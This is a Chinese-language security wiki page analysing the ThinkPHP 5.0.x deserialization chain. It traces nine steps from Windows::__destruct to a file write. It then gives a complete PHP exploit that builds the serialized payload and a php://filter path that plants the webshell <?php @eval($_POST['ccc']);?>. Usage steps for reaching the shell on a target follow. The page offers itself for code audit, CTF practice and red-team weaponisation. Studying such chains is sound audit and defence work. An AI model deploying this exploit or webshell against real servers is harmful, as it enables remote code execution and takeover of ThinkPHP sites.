

## 概述

本页面系统沉淀 ThinkPHP 5.0.x 反序列化漏洞的完整利用链分析，覆盖从 `__destruct` 入口到任意文件写入的九步调用链溯源、完整 EXP 构造细节、php://filter 编码绕过 `exit()` 拦截技巧，以及版本影响范围实测验证。适合代码审计、漏洞复现、CTF 实战及红队武器化参考。

> **原文来源**：微信公众号文章《Thinkphp5.0.x反序列化利用链分析》  
> **影响版本**：5.0.24 ✅、5.0.18 ✅、5.0.9 ❌（实测验证）

## 利用链全景图



## 九步调用链详细溯源

### 步骤 1：入口点 `Windows::__destruct`

**文件**：`thinkphp/library/think/process/pipes/Windows.php`

```php
public function __destruct()
{
    $this->removeFiles();
}
```

析构函数自动调用 `removeFiles()`，`$this->files` 可控，存入 `Pivot` 对象。

### 步骤 2：`removeFiles` 触发 `__toString`

```php
private function removeFiles()
{
    foreach ($this->files as $file) {
        if (file_exists($file)) {  // 触发 $file->__toString()
            @unlink($file);
        }
    }
}
```

`file_exists()` 遇到对象会自动调用 `__toString()`，进入 `Pivot` 类。

### 步骤 3：`Pivot::__toString` -> `toJson` -> `toArray` 调用 `__call`

**文件**：`thinkphp/library/think/Model.php`

```php
public function __toString()
{
    return $this->toJson();
}

public function toJson($options = JSON_UNESCAPED_UNICODE)
{
    return json_encode($this->toArray(), $options);
}

public function toArray()
{
    // ...
    foreach ($this->append as $key => $attr) {
        if (!isset($item[$key])) {
            $value = $this->getRelationData($this->$relation()); // $relation = 'getError'
            $item[$key] = $value ? $value->getAttr($attr) : null; // 触发 Output::__call
        }
    }
}
```

**关键条件**：
1. `$this->append` 不为空 → `['a' => 'getError']`
2. `$this->error` 可控 → `HasOne` 对象
3. 进入 `getRelationData` 需 `$modelRelation` 为 `Relation` 子类

### 步骤 4：`Output::__call` 调用 `block`

**文件**：`thinkphp/library/think/console/Output.php`

```php
public function __call($method, $args)
{
    if (isset($this->styles[$method])) {
        return $this->$method($args[0]);
    }
}
```

`$this->styles = ['getAttr' => 'block']`，故调用 `block('admin')`（`$attr` 来自 `HasOne::$bindAttr`）。

### 步骤 5：`Output::block` -> `writeIn` -> `write`

```php
protected function block($message, $style = 'info', $width = 0)
{
    // ...
    $this->writeIn($message . PHP_EOL, $style, true); // $message = 'admin'
}

protected function writeIn($message, $style = 'info', $newline = false)
{
    // ...
    $this->write($message, $newline);
}

protected function write($message, $newline = false)
{
    if ($this->handle) {
        $this->handle->write($message, $newline); // $this->handle = Memcached 对象
    }
}
```

### 步骤 6：`Memcached::write` -> `handler->set`

**文件**：`thinkphp/library/think/session/driver/Memcached.php`

```php
public function write($sessionId, $data)
{
    $this->handler->set($sessionId, $data, $this->expire); // $this->handler = File 对象
}
```

### 步骤 7：`File::set` 首次调用 `file_put_contents`（参数不可控）

**文件**：`thinkphp/library/think/cache/driver/File.php`

```php
public function set($name, $value, $expire = null)
{
    $filename = $this->getCacheKey($name); // path + md5('admin') + '.php'
    $data = $this->serialize($value);       // $value 固定为 false
    // ...
    file_put_contents($filename, $data);    // 内容不可控
    // ...
    $this->setTagItem($filename);           // 关键：二次调用 set
}
```

**文件名可控点**：`$this->options['path']` 可注入 `php://filter` 链。

### 步骤 8：`setTagItem` 再次调用 `set`（参数完全可控）

```php
protected function setTagItem($filename)
{
    // ...
    $this->set($tagName, $filename, $tagExpire); // $name = tagName(可控), $value = filename(可控)
}
```

此时 `$value` 为上一步生成的文件名，通过 `php://filter` 解码后即为 Webshell 内容。

### 步骤 9：`php://filter` 编码绕过 `exit()` 拦截

**原理参考**：[阿里云安全博客 - php://filter 绕过技巧](https://xz.aliyun.com/t/7457)

```php
'path' => 'php://filter/convert.iconv.utf-8.utf-7|convert.base64-decode/resource=aaaPD9waHAgQGV2YWwoJF9QT1NUWydjY2MnXSk7Pz4g/../a.php'
```

- `convert.base64-decode`：解码 Base64 Payload（`<?php @eval($_POST['ccc']);?>`）
- `convert.iconv.utf-8.utf-7`：UTF-7 编码特性可吞噬后续 `exit();` 等干扰字符
- 最终写入 `a.php3b58a9545013e88c7186db11bb158c44.php`（含 `md5('admin')`）

## 完整 EXP 构造代码

```php
<?php
// __destruct 入口
namespace think\process\pipes {
    class Windows {
        private $files = [];
        public function __construct($pivot) {
            $this->files[] = $pivot;
        }
    }
}

// __toString -> toArray 触发 __call
namespace think\model {
    class Pivot {
        protected $parent;
        protected $append = [];
        protected $error;
        public function __construct($output, $hasone) {
            $this->parent = $output;
            $this->append = ['a' => 'getError'];
            $this->error = $hasone;
        }
    }
}

// getModel 返回 Output
namespace think\db {
    class Query {
        protected $model;
        public function __construct($output) {
            $this->model = $output;
        }
    }
}

// __call 调用 block
namespace think\console {
    class Output {
        private $handle = null;
        protected $styles;
        public function __construct($memcached) {
            $this->handle = $memcached;
            $this->styles = ['getAttr' => 'block'];
        }
    }
}

// Relation 子类，控制 bindAttr 与 selfRelation
namespace think\model\relation {
    class HasOne {
        protected $query;
        protected $selfRelation;
        protected $bindAttr = [];
        public function __construct($query) {
            $this->query = $query;
            $this->selfRelation = false;
            $this->bindAttr = ['a' => 'admin']; // 传给 block 的 $message
        }
    }
}

// File 缓存驱动，注入 php://filter
namespace think\cache\driver {
    class File {
        protected $options = [
            'path' => 'php://filter/convert.iconv.utf-8.utf-7|convert.base64-decode/resource=aaaPD9waHAgQGV2YWwoJF9QT1NUWydjY2MnXSk7Pz4g/../a.php',
            'cache_subdir' => false,
            'prefix' => '',
            'data_compress' => false
        ];
        protected $tag = true;
    }
}

// Session 驱动桥接 File
namespace think\session\driver {
    class Memcached {
        protected $handler = null;
        public function __construct($file) {
            $this->handler = $file;
        }
    }
}

// 链式实例化
namespace {
    $file = new think\cache\driver\File();
    $memcached = new think\session\driver\Memcached($file);
    $output = new think\console\Output($memcached);
    $query = new think\db\Query($output);
    $hasone = new think\model\relation\HasOne($query);
    $pivot = new think\model\Pivot($output, $hasone);
    $windows = new think\process\pipes\Windows($pivot);
    
    echo urlencode(serialize($windows));
}
```

## 版本影响验证表

| 版本 | 测试结果 | 备注 |
|------|----------|------|
| 5.0.24 | ✅ 可利用 | 最新 5.0.x 版本 |
| 5.0.18 | ✅ 可利用 | 常见历史版本 |
| 5.0.9  | ❌ 不可用 | 早期版本链路不通 |

> 建议实战前通过 `composer show thinkphp/thinkphp` 确认目标版本。

## 关键技术点总结

1. **`Model::__toString` 到 `Output::__call` 的桥接条件**  
   - `$append` 非空 + `$error` 为 `HasOne` + `$parent` 为 `Output` + `HasOne::$query->model` 为 `Output` + `HasOne::$selfRelation = false` + `HasOne::$bindAttr` 可控

2. **二次 `set` 实现内容可控**  
   - 首次 `set` 写入文件名（含 `md5('admin')`），第二次 `setTagItem` 以文件名为内容写入，配合 `php://filter` 解码得到 Webshell

3. **`php://filter` 双重编码绕过**  
   - `convert.base64-decode` 还原 Payload  
   - `convert.iconv.utf-8.utf-7` 利用 UTF-7 状态机特性“吃掉”尾部 `exit();` 等干扰代码

## 实战复现截图要点

- **生成序列化字符串**：`urlencode(serialize($windows))`
- **发送反序列化请求**：Cookie / POST 参数 / Session 等反序列化入口
- **访问 Webshell**：`http://target/a.php3b58a9545013e88c7186db11bb158c44.php` 密码 `ccc`
- **文件内容验证**：Base64 解码后为 `<?php @eval($_POST['ccc']);?>`

## 交叉引用与延伸阅读

- [[xd-security-deserialization-xxe-notes-day37-39]] — XD安全课程中 PHP/Java 反序列化、魔术方法触发机制系统笔记
- [[xd-security-ctf-flag-notes-day83-85]] — 涵盖 PHP 反序列化、弱类型比较、`preg_match` 绕过等 CTF 核心题型
- [[attack-defense-world-master-advanced-writeup]] — 攻防世界进阶区 ThinkPHP5 RCE 实战复现
- [[php伪协议与反序列化利用]] — PHP 伪协议（`php://filter`、`php://input`、`data://`）综合利用技巧与绕过案例
- [[php-file-inclusion-vulnerability]] — PHP 文件包含漏洞成因、伪协议利用链、任意文件下载检测
- [[ctfshow-web-info-gathering-brute-force]] — CTFshow 信息收集与爆破专题，含源码泄露、版本控制残留等入口挖掘
- [[buuctf-web-writeup-collection]] — BUUCTF Web 47 道题解汇总，含反序列化、文件包含、SQLi 等分类交叉引用

## 参考资料

1. [阿里云安全 - php://filter 绕过技巧详解](https://xz.aliyun.com/t/7457)
2. [安恒信息 - ThinkPHP 5.0.x 反序列化链分析](https://www.anquanke.com/post/id/196364)
3. [先知社区 - ThinkPHP 5.0 反序列化漏洞分析](https://xz.aliyun.com/t/7082)

---

> **编辑**：A1andNS  
> **投稿**：sp4z  
> **归档日期**：2024-01-15

## 来源

- [0xfafu攻防实验室-202010-202112_07](../sources/0xfafu攻防实验室-202010-202112_07.md)
